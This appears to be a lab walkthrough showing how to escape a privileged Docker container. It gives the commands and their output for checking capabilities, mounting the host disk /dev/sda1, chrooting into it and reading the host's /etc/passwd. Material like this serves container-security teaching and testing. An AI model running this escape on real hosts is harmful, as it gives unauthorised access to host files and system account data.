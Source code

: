 # Break out of a privileged docker container 

In this lab exercise we will run a container in a privileged mode and then breakout using chroot.

By default the containers are “unprivileged”. However, containers can be run in privileged mode by using ‘--privileged’ flag. 


* In this lab exercise we will run a container in a privileged mode and then breakout using chroot.

```bash
docker run -dit --privileged ubuntu:14.04 bash
```
Output:
```
pentester@NotSoSecure:~$ docker run -dit --privileged ubuntu:14.04 bash
Unable to find image 'ubuntu:14.04' locally
14.04: Pulling from library/ubuntu
2e6e20c8e2e6: Pull complete
0551a797c01d: Pull complete
512123a864da: Pull complete
Digest: sha256:d7a459ecd77ebb09525584f2c3e1bb7f6a2879d90df8a3523c1b899dfc2a226f
Status: Downloaded newer image for ubuntu:14.04
cdbf78ce2ab7f6914c79e785bb8c1bdc70da5c0606cca27ea63c0da2fd4cd178
```
* Run ```docker ps``` and obtain the container ID as shown below:
Output:
```
pentester@NotSoSecure:~$ docker ps
CONTAINER ID   IMAGE          COMMAND                  CREATED         STATUS         PORTS                                       NAMES
cdbf78ce2ab7   ubuntu:14.04   "bash"                   4 seconds ago   Up 4 seconds                                               priceless_rhodes
```
* Login to the container by running ```docker exec -it <Container_ID> /bin/bash```
* Print the available capabilities in the docker container by running the command:  ```capsh --print ```
The container will print out all the capabilities as shown in Fig. Since the container has been run using the privileged mode the ```CAP_SYS_ADMIN ```capability is enabled. This capability allows us to run a vast set of system administrator tasks.

Output:
```
pentester@NotSoSecure:~$ docker exec -it cd /bin/bash
root@cdbf78ce2ab7:/# capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
root@cdbf78ce2ab7:/#
```
* Check for ‘/dev/sda1’ by running ```ls -la /dev/sda1 ```
Output:
```
root@cdbf78ce2ab7:/# ls -la /dev/sda1
brw-rw---- 1 root disk 8, 1 Sep  3 10:21 /dev/sda1
root@cdbf78ce2ab7:/#
```
* Mount this device to a mount point (in our case /mnt) by using the mount command:
```bash
mount /dev/sda1 /mnt
```
* List the files of the host system mounted above by running the command:  ```ls -l /mnt```
Output:
```
root@cdbf78ce2ab7:/# mount /dev/sda1 /mnt
root@cdbf78ce2ab7:/# ls -l /mnt
total 2097252
drwxr-xr-x  2 root root       4096 Mar 20 08:11 bin
drwxr-xr-x  3 root root       4096 Aug 26 09:57 boot
drwxr-xr-x  4 root root       4096 Mar 20 08:02 dev
drwxr-xr-x 93 root root       4096 Aug 26 10:17 etc
drwxr-xr-x  3 root root       4096 Mar 20 08:07 home
lrwxrwxrwx  1 root root         34 Mar 20 08:04 initrd.img -> boot/initrd.img-4.15.0-171-generic
lrwxrwxrwx  1 root root         34 Mar 20 08:04 initrd.img.old -> boot/initrd.img-4.15.0-171-generic
drwxr-xr-x 19 root root       4096 Aug 26 10:07 lib
drwxr-xr-x  2 root root       4096 Mar 20 08:05 lib64
drwx------  2 root root      16384 Mar 20 08:01 lost+found
drwxr-xr-x  2 root root       4096 Mar 20 08:13 media
drwxr-xr-x  2 root root       4096 Mar 20 08:02 mnt
drwxr-xr-x  4 root root       4096 Aug 26 10:07 opt
drwxr-xr-x  2 root root       4096 Apr 24  2018 proc
drwx------  3 root root       4096 Aug 26 10:18 root
drwxr-xr-x  2 root root       4096 Mar 20 08:07 run
drwxr-xr-x  2 root root       4096 Sep  1 16:10 sbin
drwxr-xr-x  2 root root       4096 Mar 20 08:02 srv
-rw-------  1 root root 2147483648 Mar 20 08:01 swapfile
drwxr-xr-x  2 root root       4096 Apr 24  2018 sys
drwxrwxrwt 12 root root       4096 Sep  3 10:23 tmp
drwxr-xr-x 10 root root       4096 Mar 20 08:02 usr
drwxr-xr-x  2 root root       4096 Aug 26 09:57 vagrant
drwxr-xr-x 11 root root       4096 Mar 20 08:02 var
lrwxrwxrwx  1 root root         31 Mar 20 08:04 vmlinuz -> boot/vmlinuz-4.15.0-171-generic
lrwxrwxrwx  1 root root         31 Mar 20 08:04 vmlinuz.old -> boot/vmlinuz-4.15.0-171-generic
root@cdbf78ce2ab7:/#
```
* We have now successfully mounted the device /dev/sda1 and gained access to the host’s filesystem. Now Chroot into the host by running the below command:  
```bash
chroot /mnt bash
```
Then run ```cat /etc/passwd```
Output:
```
root@cdbf78ce2ab7:/# chroot /mnt bash
root@cdbf78ce2ab7:/# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
pentester:x:1000:1000:pentester,,,:/home/pentester:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
ntp:x:108:114::/nonexistent:/usr/sbin/nologin
usbmux:x:109:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

